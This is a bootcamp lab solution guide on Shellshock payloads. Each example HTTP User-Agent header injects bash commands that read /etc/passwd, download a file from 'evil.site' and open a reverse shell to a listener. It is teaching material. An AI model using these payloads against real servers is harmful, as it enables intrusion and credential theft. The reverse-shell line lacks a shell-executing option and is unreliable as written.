 ## Solution Guide: Shellshock Payloads

In this activity, you wrote template scripts that can be used to exploit the Shellshock vulnerability.

Use the below example that we covered in the previous section:

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
  Connection: keep-alive
  ```

* This exploit will cat `etc/passwd`.
* Remember: With this template, al you need to update for each exploit is the code that comes after `() { :;}; /bin/bash -c`  in `User-Agent`. 



### Instructions

Open a text editor and write Shellshock payloads for the  tasks below. You may need to do additional research to complete the code injections. 

1. Read `/etc/passwd`.
   - Solution: `User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'`

2. Use `curl` to download a malicious file from `http://evil.site/mal.php`.
   - Solution: `User-Agent: () { :;}; /bin/bash -c 'curl -O http://evil.site/mal.php'`

3. Open a netcat/ncat listener on your host's port `4444`. 
   - Solution: `ncat -lvp 4444`

4. Send a reverse shell to your port 4444 (in this example, use the IP address `192.168.0.8`). 
   - Solution: `User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.8 4444'`

---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.  All Rights Reserved.
